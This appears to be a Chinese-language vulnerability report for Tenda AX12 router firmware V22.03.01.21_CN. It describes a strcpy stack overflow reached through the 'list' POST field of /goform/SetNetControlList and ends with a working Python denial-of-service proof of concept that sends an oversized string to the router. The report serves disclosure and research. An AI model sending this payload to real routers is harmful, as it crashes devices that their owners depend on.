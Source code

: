 # 漏洞描述

设备：Tenda-AX12 V22.03.01.21_CN(https://www.tenda.com.cn/download/detail-3237.html)

漏洞类型：栈溢出

攻击效果：拒绝服务

# 漏洞成因

该漏洞为发生在`sub_4327CC`函数中的栈溢出漏洞，该函数处理`/goform/SetNetControlList`下的post请求

v2来自于http数据包中的list变量，随后调用了`sub_4325BC`函数

![image-20220209162823940](image/1.png)

在`sub_4325BC`函数中，调用了strcpy函数来对list进行拷贝，缺少安全检测从而导致栈溢出

![image-20220209162909094](image/2.png)

攻击者可借此实现拒绝服务攻击

# POC

拒绝服务的Poc：

```python
import requests

url = "http://192.168.0.1/goform/SetNetControlList"
list_data = 'a'*0x1000 + '\n'

r = requests.post(url, data={'list': list_data})
print(r.content)
```

